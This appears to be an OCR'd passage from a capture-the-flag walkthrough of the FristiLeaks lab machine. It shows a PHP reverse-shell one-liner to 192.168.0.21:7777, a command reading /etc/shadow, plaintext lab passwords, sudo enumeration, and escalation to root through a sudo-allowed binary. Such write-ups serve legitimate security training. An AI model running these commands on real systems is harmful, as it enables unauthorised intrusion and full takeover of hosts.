 ```python
echo "/home/admin/cat /etc/shadow" > /tmp/runthis
/usr/bin/php -r '$sock=fsockopen("192.168.0.21",7777);passthru("sh <&3 >&3 2>&3");'
```


su admin
Password: thisisalsopw123

[admin@localhost tmp]$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for admin: thisisalsopw123

Sorry, user admin may not run sudo on localhost.
[admin@localhost tmp]$ su fristigod
su fristigod
Password: LetThereBeFristi!

bash-4.1$ whoami
whoami
fristigod
bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom

sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom id
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/sh
sh-4.1# whoami
whoami
root
sh-4.1# 
